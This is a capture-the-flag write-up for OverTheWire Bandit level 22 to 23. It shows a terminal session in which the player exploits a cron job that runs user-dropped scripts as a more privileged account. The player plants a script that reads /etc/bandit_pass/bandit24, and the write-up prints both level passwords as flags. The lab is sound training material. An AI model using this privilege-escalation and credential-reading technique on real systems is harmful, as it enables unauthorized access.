 # Bandit Level 22 → Level 23

## Previous Flag
<b>0Zf11ioIjMVN551jX3CmStKLYqjk54Ga</b>

## Goal
Use previous password to log in SSH with user <b>bandit23</b> on port <b>2220</b>. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in <b>/etc/cron.d/</b> for the configuration and see what command is being executed.

NOTE: This level requires you to <b>create your own first shell-script</b>
NOTE: Your shell <b>script is removed once executed</b>, so you may want to keep a copy around …

## What I learned
```
mktemp -d:                  not work due to restrictions set by sysAdmin
/var/spool/$myname/foo      folder where script deletes bandit24
/tmp/                       no access, exploit w/ creating subfolder
deeper understanding of cron
```

## Solution
```
@trungdullc ➜ /workspaces/01noobHacker (main) $ ssh bandit23@bandit.labs.overthewire.org -p 2220 ⌨️
bandit23@bandit:~$ whatis chmod cron crontab ⌨️
chmod (1)            - change file mode bits
chmod (2)            - change permissions of a file
cron (8)             - daemon to execute scheduled commands (Vixie Cron)
crontab (1)          - maintain crontab files for individual users (Vixie Cron)
crontab (5)          - tables for driving cron
bandit23@bandit:~$ man 5 crontab ⌨️
CRONTAB(5)                                                  File Formats Manual                                                 CRONTAB(5)

NAME
       crontab - tables for driving cron

DESCRIPTION
       A  crontab  file  contains  instructions to the cron(8) daemon of the general form: ``run this command at this time on this date''.
       Each user has their own crontab, and commands in any given crontab will be executed as the user who owns  the  crontab.   Uucp  and
       News will usually have their own crontabs, eliminating the need for explicitly running su(1) as part of a cron command.

 Manual page crontab(5) line 1 (press h for help or q to quit)
bandit23@bandit:/etc/cron.d$ ls ⌨️
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 ⌨️
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh ⌨️
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/everyoneaccess && chmod 777 /tmp/everyoneaccess ⌨️
bandit23@bandit:/etc/cron.d$ vi /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ cat /tmp/everyoneaccess/main.sh ⌨️
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/everyoneaccess/pass.txt
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rw-rw-r-- 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ chmod +x /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rwxrwxr-x 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ cp /tmp/everyoneaccess/main.sh /var/spool/bandit24/foo/ ⌨️
bandit23@bandit:/tmp/everyoneaccess$ cat pass.txt ⌨️                             # Wait 1 min
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 🔐
```

## Flag
<b>gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8</b>

## Continue
[Continue](/overthewire/2324.md)